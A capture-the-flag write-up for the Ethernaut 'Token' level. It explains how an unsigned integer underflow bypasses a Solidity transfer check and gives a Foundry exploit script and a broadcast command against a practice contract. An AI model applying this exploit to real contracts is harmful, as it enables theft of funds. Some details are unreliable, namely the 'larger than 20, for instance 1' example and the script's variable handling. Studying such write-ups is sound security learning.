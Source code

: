 ## 👾 05. Token

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/b4985e6e-fbb2-4e7c-ac7b-2e249f857bb4">
</p>


<br>


### tl; dr

<br>


* in this challenge, we explore a classic vulnerability in both web2 and web3 security: **integer overflows**.


<br>


```solidity
contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```


<br>

---

### discussion

<br>

 * programming languages that are not memory-managed can have their integer variables overflown if assigned to values larger than the variables' capacity limit.
    - we will use this trick to overflow a `uint` and bypass the `require()` check of `Token()`'s `transfer()` function:

<br>

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

<br>

 * whenever we add `1` to a variable's maximum value, the value wraps around and decreases.
    - for example, an (unsigned) `uint8`, has the maximum value of `2^8 - 1 = 255`. if we add `1` to it, it becomes `0`. same as `2^256 - 1 + 1`.
    - symmetrically, if we subtract a value larger than what the variable holds, the result wraps around from the other side, increasing the variable's value. this is our exploit.

<br>

* if we pass a `_value` to `transfer()` that is larger than `20`, for instance `1`, `balances[msg.sender] - _value` results on `uint256(-1)`, which is equal to a very large number, `2^256 – 1`.


<br>

* **[in solidity, this type of integer overflow used to be a vulnerability until version `0.8.0`](https://solidity-by-example.org/hacks/overflow/)**.
    - this is why contracts were advised to use **[OpenZeppelin' `SafeMath.sol`](https://docs.openzeppelin.com/contracts/4.x/utilities#math
)** whenever they performed integer operations.
    - in newer versions, if the code is not performing these operations, we can use `unchecked` to save gas.

<br>



----

### solution in solidity

<br>

* since this challenge is so easy, we skip tests and go direct to the submission script, `script/05/Token.s.sol`:

<br>

```solidity
contract Exploit is Script {

        Token level = Token(instance); 
        address instance = vm.envAddress("INSTANCE_LEVEL5");
        address hacker = vm.envAddress("PRIVATE_KEY");          
        
        function run() external {

            vm.startBroadcast(hacker);
            level.transfer(address(0), 21);
            vm.stopBroadcast();
    }
}
```

<br>

* running with:

<br>

```shell
> forge script ./script/05/Token.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>

---

### 3-lines solution directly in the console

<br>

<p align="center">
<img width="600" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/c2d2db5c-feb8-469d-91b6-5b852cc5f011">
</p>

<br>


----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



